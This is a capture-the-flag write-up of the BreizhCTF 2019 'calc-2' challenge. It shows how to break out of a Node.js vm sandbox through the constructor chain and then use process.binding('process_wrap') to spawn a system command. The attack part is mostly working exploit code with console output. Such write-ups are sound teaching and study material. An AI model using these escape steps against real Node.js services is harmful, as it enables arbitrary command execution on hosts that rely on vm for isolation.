 ```yaml
---
title: BreizhCTF 2019 - calc-2
authors: dabi0ne
layout: writeup
ctf_url: https://www.breizhctf.com/
---
```

Solves: 0 / Points: 400 / Category: Jail

## Challenge description 
See [challenge source code](/assets/calc2.js)

The sandbox is implemented using [Node.js `vm` module](https://nodejs.org/api/vm.html)

## Challenge resolution
Our goal is to execute a system command to obtain the flag.

### Step one: Escape from the vm
To escape from the vm we will use a constructor of constructor to create an anonymous function with controlled body.

This is a simple example using Firefox JS console:
```js
>> this.constructor.constructor("alert(1)")
function anonymous()
>> this.constructor.constructor("alert(1)").toString()
"function anonymous(
) {
alert(1)
}"
```

Using this technique we can execute code outside the vm context.
Indeed, the `this` object, when it is returned by calling `constructor`, is not restricted to log function:
```js
>> log(this.constructor.constructor('return this')());
> EOF
[Function: anonymous]
Object [global] {
  global: [Circular],
  process:
   process {
     title: 'nodejs',
     version: 'v10.15.2',
.
.
.
  setImmediate:
   { [Function: setImmediate] [Symbol(util.promisify.custom)]: [Function] },
  setInterval: [Function: setInterval],
  setTimeout:
   { [Function: setTimeout] [Symbol(util.promisify.custom)]: [Function] } }
```

Comparing to the vm context:
```js
> log(this);
> EOF
{ log: [Function] }
```

### Step two: Execute a shell command
The `process.mainModule` of the script was cleaned so we didn't have access to the `require` function:
```js
/* remove mainModule for better security */
process.mainModule = {};
```

However, we identified that the `binding` function is available on the object returned by the constructor:
```js
> log(this.proc = this.constructor.constructor('return this.process')());

binding: [Function: binding]
```
The `binding` function allows loading internal modules. 
Firstly, we tried to read the flag from the file using the `fs` module:
```js
> log(this.constructor.constructor('return this.process.binding')()('fs')
```
Fail :( 

But we were able to list directories and identify the flag location:

```js
> log(this.constructor.constructor('return this.process.binding')()('fs').readdir('/home/guest', {}, "","", function (err, data) {data}));
```

After a tip from the challenge author:
> you don't have `child_process` and its `exec` function, so write it


So let's read [nodejs source code on Github for `child_process`](https://github.com/nodejs/node/blob/master/lib/internal/child_process.js):

The outcome is that the `child_process` uses an internal binding of `process_wrap` to execute commands by calling the `spawn` function:

```js
const { Process } = internalBinding('process_wrap');

child.spawn({
    file: opts.file,
    args: opts.args,
    cwd: options.cwd,
    windowsHide: !!options.windowsHide,
    windowsVerbatimArguments: !!options.windowsVerbatimArguments,
    detached: !!options.detached,
    envPairs: opts.envPairs,
    stdio: options.stdio,
    uid: options.uid,
    gid: options.gid
});
```

Hence, we have to create a `Process` object and call its `spawn` function to execute system commands:

1 - Check if the binding doesn't fail: 
```js
> log(this.constructor.constructor('return this.process.binding')()('process_wrap'));
> EOF
{ Process: [Function: Process] }

```
2 - Instantiate a `Process` object:
```js
> log(this.proc_wrap = this.constructor.constructor('return this.process.binding')());
> log(this.Process = this.proc_wrap('process_wrap').Process);
> log(this.process = new Process());
```

3 - Call the `spawn` function with the good parameters:

```js
> log(this.env = this.constructor.constructor('return this.process.env')());
> log(this.mproc  = this.constructor.constructor('return this.process')());
> log(this.sot = this.constructor.constructor('return this.process.stdout')());
> log(this.sin = this.constructor.constructor('return this.process.stdin')());
> log(this.rc = process.spawn({file:'/home/guest/flag_reader',args:[],cwd:"/home/guest",windowsVerbatimArguments:false,detached:false,envPairs:this.env, stdio:[mproc.stdin, mproc.stdout, mproc.stderr]}));

> EOF

breizctf_flag{FORGOTTEN_FLAG}
```


